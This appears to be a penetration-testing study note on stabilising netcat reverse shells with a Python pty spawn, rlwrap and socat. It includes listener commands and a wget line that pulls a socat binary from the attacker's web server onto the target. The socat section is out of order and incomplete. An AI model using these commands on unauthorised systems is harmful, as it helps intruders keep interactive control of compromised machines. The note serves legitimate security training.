 
There are many ways to stabilise a netcat shell, we will be looking at 3 of them,  Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it:

## 1. Using Python:

First, we use `which python` to know if python exists and in which directory is it, then we run `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.

Second, we use `export TERM=xterm` which give us access to term commands such as `clear`.

Finally, we use `[CTRL] + [Z]` to move the shell to the background, then we use `stty raw -echo; fg`.
This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

## 2. using rlwrap:

To use rlwrap, we invoke a slightly different listener by running the following command `rlwrap nc -lvnp <port>`, This technique is particularly useful when dealing with Windows shells, When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

## 3. using Socat:

Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.  A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`

First, transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. 

## To change the number of rows and columns in a terminal:

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and "columns":

Next, in your reverse/bind shell, use both of these commands, `stty rows <number>`  and `stty cols <number>`
